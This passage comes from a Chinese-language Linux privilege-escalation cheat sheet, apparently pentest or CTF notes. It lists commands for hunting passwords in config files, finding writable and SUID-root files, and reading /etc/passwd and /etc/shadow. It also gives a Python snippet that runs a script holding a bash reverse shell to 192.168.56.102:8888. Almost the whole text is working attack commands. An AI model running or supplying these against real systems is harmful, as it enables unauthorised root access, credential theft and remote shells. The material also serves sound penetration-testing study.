 ```
for i in $(cat readable_files.txt);do grep -El 'runner|asahi' $i;done > content_search_user.txt &
```


## 6.12、敏感文件寻找

配置文件查找

```
find / -type f -name "*conf*" 2>/dev/null 

cat xxx.conf |grep -i pass
```

可写文件查找

```
find / -type f  -writable  2>/dev/null > /tmp/w.txt
```

查找包含用户名关键字的文件和目录

```shell
查找包含用户名关键字的文件
find / -type f -iname "*$(whoami)*" 2>/dev/null 

查找包含用户名关键字的目录
find / -type d -iname "*$(whoami)*" 2>/dev/null 
find / -type f -iname "*sickos*" 2>/dev/null 
    -iname 忽略大小写
```



```sh
find / -user root -perm 4000 2>/dev/null
```

## 6.13、可执行高权限python脚本提权

```shell
import os
os.system('/usr/bin/bash /tmp/shell.sh')

cat /tmp/shell.sh
bash -i >& /dev/tcp/192.168.56.102/8888 0>&1
```



## 6.14、/etc/passwd /etc/shadow提权

```
ls -l /etc/passwd
cat /etc/passwd

ls -l /etc/shadow
cat /etc/shadow
```
